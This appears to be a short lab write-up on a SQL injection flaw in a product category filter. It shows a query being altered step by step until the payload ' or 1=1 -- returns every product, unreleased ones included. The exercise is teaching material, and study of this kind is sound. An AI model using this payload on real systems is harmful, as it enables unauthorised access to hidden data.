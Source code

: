 ## SQL Injection vulnerability in `WHERE` clause allowing retrieval of hidden data
- SQL Injection in `product` category filter.
- `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
- End goal - display all products both released and unreleased.
- Analysis:
  - ```sql 
    SELECT * FROM products WHERE category = 'Gifts' AND released = 1 
    ```
  - ```sql 
    SELECT * FROM products WHERE category = ''' AND released = 1 
    ```
  - ```sql 
    SELECT * FROM products WHERE category = ''--' AND released = 1 
    ```
  - ```sql 
    SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1 
    ```
  - The above query basically converted as follows - 
  - ```sql 
    SELECT * FROM products
    ```


